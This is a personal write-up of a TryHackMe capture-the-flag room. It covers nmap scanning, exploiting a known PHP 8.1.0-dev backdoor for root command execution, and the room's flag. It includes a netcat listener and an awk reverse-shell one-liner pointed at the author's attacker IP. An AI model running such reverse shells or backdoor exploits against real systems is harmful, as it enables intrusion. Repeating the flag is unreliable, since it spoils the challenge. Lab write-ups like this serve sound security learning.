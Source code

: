 # [Agent T](https://tryhackme.com/room/agentt)

```
export IP=10.10.97.116
```

---

## Task 1
1. What is the flag?
	a. `nmap -sV -sC -oN nmap/initial $IP`
	```
	80/tcp    open     http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
	|_http-title:  Admin Dashboard
	6004/tcp  filtered X11:4
	57797/tcp filtered unknown
	```

	b. Left off looking into the `searchsploit Bootstrap`. Check out the two .txt files in the directory.

	c. No exploits with Bootstrap 4.

	d. Googled around and found that there is a `backdoor` exploit with `PHP 8.1.0-dev`: https://www.exploit-db.com/exploits/49933.

	e. Copied and modified the exploit to the `php_8.1.0-dev_exploit.py` file.

	f. Executed it and was able to run `root` level commands. However, the shell wasn't very stable. Still, was able to find the flag @ `/flag.txt`:

	`flag{4127d0530abf16d6d23973e3df8dbecb}`

	g. After finding the flag, I went back to figure out how to stabalize the shell.

	h. I looked for python (versions 2 and 3) and netcat on the host system, but couldn't find anything that I knew could be used for a reverse shell.

	i. Googled `reverse shells` and found the GitHub page [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and began searching the host system for any of the listed binaries.

	j. Luckily, the first binary I searched for (`which awk`) got a hit and so I took the PayloadAllTheThings awk reverse shell script and modified it accordingly.

	```
	# Variables:
	export LHOST=10.6.53.245
	export LPORT=9999

	# Start netcat on local machine:
	nc -lnvp 9999

	# The reverse shell command (update the IP and port accordingly):
	awk "BEGIN {s = \"/inet/tcp/0/10.6.53.245/9999\"; while(42) { do{ printf \"shell>\" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != \"exit\") close(s); }}" /dev/null
	```

	k. This didn't work and I ended up trying a whole lot of other reverse shells, but none of them worked :(